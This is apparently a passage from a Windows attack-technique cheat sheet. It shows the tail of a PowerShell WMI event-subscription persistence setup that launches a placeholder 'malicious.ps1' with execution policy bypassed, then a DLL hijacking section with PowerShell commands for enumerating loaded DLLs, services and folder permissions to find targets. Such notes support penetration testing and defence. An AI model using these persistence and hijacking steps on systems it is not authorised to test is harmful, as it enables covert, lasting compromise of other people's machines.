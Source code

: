     
    # Create a Consumer that runs a PowerShell script when the event is triggered
    $Consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
        Name="PersistentConsumer"; 
        CommandLineTemplate="powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Path\To\malicious.ps1"
    }

    # Bind the Filter and Consumer to establish the subscription
    Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
        Filter=$Filter; 
        Consumer=$Consumer
    }
    ```

# DLL Hijacking

DLL Hijacking occurs when an application or service loads a Dynamic Link Library (DLL) from a location where an attacker has placed a malicious DLL due to improper directory or path permissions.

## Identifying Vulnerable DLLs

#### View All DLLs Loaded for a Specific Process
To check the DLLs loaded by a specific process, use its PID (Process ID):
```powershell
Get-Process -Id <PID> | Select-Object -ExpandProperty Modules | Select-Object ModuleName, FileName
```

#### View All DLLs Loaded by Running Processes
You can inspect the DLLs loaded by all currently running processes. This can help identify potential target DLLs for hijacking.
```powershell
Get-Process | ForEach-Object { $_.Modules } | Where-Object { $_.ModuleName -like "*.dll" } | Select-Object ModuleName, FileName
```

#### Find Vulnerable Services for DLL Hijacking
Search for services that are executing from insecure directories such as `System32`, where DLL hijacking may be possible:
```powershell
Get-WmiObject Win32_Service | Where-Object { $_.PathName -match "System32" } | Select-Object Name, PathName
```

#### Search for DLL Files in Vulnerable Directories
You can list all DLL files in a potentially vulnerable directory (with insecure permissions) and check the permissions of specific DLLs:
```powershell
Get-ChildItem -Path "C:\Vulnerable\Directory" -Recurse | Where-Object { $_.Extension -eq '.dll' }
icacls "C:\Vulnerable\Directory\SomeDLL.dll"
```
